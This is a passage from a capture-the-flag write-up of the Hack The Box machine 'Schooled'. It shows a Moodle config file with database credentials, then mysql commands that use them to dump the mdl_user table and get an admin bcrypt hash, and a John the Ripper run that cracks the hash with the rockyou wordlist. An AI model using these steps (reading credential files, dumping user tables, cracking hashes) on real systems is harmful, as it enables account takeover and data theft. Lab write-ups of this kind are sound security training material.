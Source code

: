 ```bash

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```


dbname = moodle
dbuser = moodle
dbpass = PlaybookMaster2020

```bash
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.           
Database 
information_schema             
moodle
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show tables from moodle;' 
mysql: [Warning] Using a password on the command line interface can be insecure.   
Tables_in_moodle 
mdl_analytics_indicator_calc 
mdl_analytics_models
mdl_analytics_models_log         
mdl_analytics_predict_samples
<SNIP>
mdl_tool_usertours_steps
mdl_tool_usertours_tours
mdl_upgrade_log
mdl_url
mdl_user								<-->
mdl_user_devices
mdl_user_enrolments
```

mdl_user

```bash
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle;select * from mdl_user;'
2       manual  1       0       0       0       1       admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW   Jamie Borham  jamie@
staff.schooled.htb      0
```

Got Admin hash for Jamie-

Admin-->Jamie-->$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW

```bash
root@napster:~/Documents/HTB/Schooled# john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:04:32 DONE (2021-07-06 14:51) 0.003672g/s 51.03p/s 51.03c/s 51.03C/s aldrich..superpet
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

